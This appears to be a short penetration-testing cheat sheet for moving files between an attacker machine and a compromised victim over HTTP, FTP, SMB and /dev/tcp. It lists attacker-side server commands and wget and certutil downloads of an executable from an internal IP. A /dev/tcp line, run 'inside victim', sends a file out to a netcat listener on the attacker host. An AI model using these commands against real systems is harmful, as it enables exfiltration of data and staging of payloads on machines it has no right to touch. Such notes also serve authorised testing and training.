<h2>HTTP</h2>

<h3>target</h3>
`python3 -m http.server 80 (file must be in current directory)`

<h3>linux</h3>
`wget http://192.168.x.x/file.exe` 
<h3>windows</h3>
`certutil .exe -urlcache -f [http://192.168.x.x/file.exe](http://192.168.x.x/file.exe)`


<h2>HTTPS</h2>


<h2>FTP</h2>
<h3>FTP server</h3>
<h5>attacker (python)</h5>
`python3 -m pyftpdlib -p 21`
<h5>attacker (node)</h5>
`ftp-srv ftp://0.0.0.0:9876 --root /tmp


<H2>SMB</H2>
<H5>attacker (impacket)</H5>
`impacket-smbserver -smb2support kali `pwd` # Share current directory

<H5>attacker (smbserver.py)</H5>
`smbserver.py -smb2support name /path/folder # Share a folder

<H5>attacker (impacket -- newer windows 10)</H5>
`impacket-smbserver -smb2support -user test -password test test `pwd``


<H2>/dev/tcp</H2>
<H5>exfiltrate from target</H5>
`nc -lvnp 80 > file to send`                                **attacker
`cat /path/file > /dev/tcp/10.10.10.10/80  `Inside victim`
<H5>upload to target</H5>
`nc -w5 -lvnp 80 < file_to_send.txt`              Inside attacker   
Inside victim
`exec 6< /dev/tcp/10.10.10.10/4444`               
`cat <&6 > file.txt

